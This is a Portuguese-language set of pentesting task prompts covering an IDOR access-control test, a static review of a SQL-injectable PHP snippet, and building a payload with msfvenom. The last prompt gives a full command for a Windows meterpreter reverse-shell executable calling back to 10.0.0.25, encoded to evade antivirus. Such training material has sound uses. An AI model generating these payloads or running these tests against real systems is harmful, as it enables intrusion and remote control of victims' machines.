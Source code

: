 
### **Prompt 13: Teste de Quebra de Controle de Acesso**

*   **Persona:** Pentester de aplicações web.
*   **Tarefa:** Testar se é possível acessar recursos de outros usuários (IDOR).
*   **Etapas:**
    1.  Fazer login como usuário `userA` (credenciais: `userA:passA`).
    2.  Acessar um recurso privado (ex: `http://target.com/profile.php?user_id=100`).
    3.  Alterar o parâmetro `user_id` para `101` (suposto usuário `userB`).
    4.  Verificar se os dados de `userB` são exibidos.
*   **Contexto:** A aplicação possui perfis de usuário acessíveis por um parâmetro numérico sequencial.
*   **Objetivo:** Demonstrar uma falha de controle de acesso horizontal.
*   **Saída Esperada:** A sequência de ações no navegador/Burp Suite. A confirmação de que os dados de outro usuário foram acessados com sucesso, violando a confidencialidade.

---

### **Prompt 14: Análise Estática de Código Fonte (SAST Básico)**

*   **Persona:** Pentester com acesso ao código-fonte.
*   **Tarefa:** Realizar uma análise estática básica em um trecho de código para encontrar vulnerabilidades comuns.
*   **Etapas:**
    1.  Identificar entradas de usuário (ex: `$_GET['param']`).
    2.  Rastrear o fluxo dessa entrada até uma função sensível (ex: `echo`, `query`).
    3.  Verificar se há sanitização ou preparação adequada.
*   **Contexto:** Trecho de código PHP: `$username = $_POST['user']; $sql = "SELECT * FROM users WHERE user = '$username'";`.
*   **Objetivo:** Identificar vulnerabilidades de segurança no código antes da execução.
*   **Saída Esperada:** Identificação clara da vulnerabilidade (SQL Injection). Explicação do fluxo de dados: "A entrada do usuário `$_POST['user']` é concatenada diretamente na query SQL na linha X, sem sanitização, permitindo injeção de código SQL."

---

### **Prompt 15: Criar um Payload com Msfvenom**

*   **Persona:** Pentester preparando armas.
*   **Tarefa:** Gerar um payload personalizado para obter shell reverso.
*   **Etapas:**
    1.  Escolher o tipo de payload (ex: `windows/x64/meterpreter/reverse_tcp`).
    2.  Definir o IP (LHOST) e porta (LPORT) do listener.
    3.  Escolher o formato de saída (ex: `exe`).
    4.  Codificar o payload para evadir antivírus.
*   **Contexto:** Sistema alvo: Windows 10. IP do atacante: `10.0.0.25`. Porta: `443`.
*   **Objetivo:** Criar um executável que, quando executado no alvo, forneça uma shell reversa.
*   **Saída Esperada:** O comando msfvenom completo. Ex: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.25 LPORT=443 -f exe -e x64/shikata_ga_nai -o payload.exe`.

---
